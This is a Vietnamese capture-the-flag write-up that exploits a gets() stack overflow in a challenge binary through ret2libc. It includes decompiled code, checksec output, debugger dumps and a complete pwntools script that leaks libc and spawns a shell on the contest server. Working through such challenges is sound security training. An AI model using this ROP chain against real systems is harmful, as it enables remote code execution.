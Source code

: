 # ida
```c
int date()
{
  return system("/bin/date");
}

__int64 vuln()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Tell us some review about our program: ");
  fflush(_bss_start);
  return gets(v1);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("Welcome to the feedback submiter.");
  vuln();
  return 0;
}
```
# checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

##### thông qua ida và checksec, ta có thể đoán được là ret2libc
> hàm system bài này không có sẵn trong file, có trong file libc trên sever

# ret2libc
> do trong chương trình có hàm puts nên ta có put@got và put@plt dễ dành leak được libc và tính địa chỉ base.
```python
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
log.info('leak libc: ' + hex(leak_libc))
```
chạy script trên sever ta nhận được ```leak libc: 0x7f1dec78aed0``` (ở đây 3kí tự cuối ```ed0``` là không đổi), tìm file libc trên mạng t có 1 file

tiếp đến ta pwninit nhưng... có vẻ như nó không tự động patched với nhau.
```
bin: ./exe

copying ./exe to ./exe_patched
running patchelf on ./exe_patched
```
nhưng không sao, ta sẽ tính tay.
___
Đầu tiên ta sẽ tính địa chỉ base libc 

![image](https://user-images.githubusercontent.com/111769169/223641357-b1530364-a813-4f70-a4be-a797fe7975bb.png)

ta sẽ lấy địa chỉ nhỏ nhất của libc là ```0x007ffff7d8d000``` base và tính offset từ địa chỉ leak đến địa
```python
libc.address = leak_libc - 528080
log.info('base libc: ' + hex(libc.address))
```
tiếp đó debug động, ta sẽ kiểm tra địa chỉ của chuỗi ```/bin/sh``` và hàm ```symtem``` là:

```
[*] /bin/sh: 0x7ff7752d1dd0
[*] base libc: 0x7ff775277f80
```
và tìm chuỗi /bin/sh ở địa chỉ ```0x7ff775401698 - 0x7ff77540169f  →   "/bin/sh"``` và hàm symtem ở ```$1 = (int (*)(const char *)) 0x7ff775279d60 <__libc_system>```
tính offset của chuỗi /bin/sh: 1243336 và system: 7648
kiểm tra lại ta thấy đúng rồi là oke

```
0x007ffdf36f7710│+0x0050: 0x00000000400703  →  <__libc_csu_init+99> pop rdi
0x007ffdf36f7718│+0x0058: 0x007feff7d40698  →  0x68732f6e69622f ("/bin/sh"?)
0x007ffdf36f7720│+0x0060: 0x007feff7bb8d60  →  <system+0> endbr64
```

do khi chạy ta có lỗi xmm1 nên ta sẽ gọi lệnh ret để +8 vào stack

<details> <summary> script </summary>

```python
from pwn import *

# r = process("./exe_patched")
r = remote("execution.ctf.pragyan.org" , 12386)
exe = ELF("./exe_patched")
libc = ELF("./musl_1.1.24-1_amd64.so")
# gdb.attach(r, gdbscript='''
#            b*vuln+50
#            c
#            ''')
input()

pop_rdi = 0x0000000000400703
#################
### leak libc ###
#################
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
libc.address = leak_libc - 528080
log.info('leak libc: ' + hex(leak_libc))
log.info('base libc: ' + hex(libc.address))

#####################
### check address ###
#####################
log.info("/bin/sh: " + hex(next(libc.search(b"/bin/sh"))))
log.info('system: ' + hex(libc.sym['system']))


payload = b'a'*72
payload += p64(0x00000000004004c9)      #ret
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')) + 1243336)
payload += p64(libc.sym['system'] + 7648)
r.sendlineafter(b"our program: ", payload)
r.interactive()
```

</details>

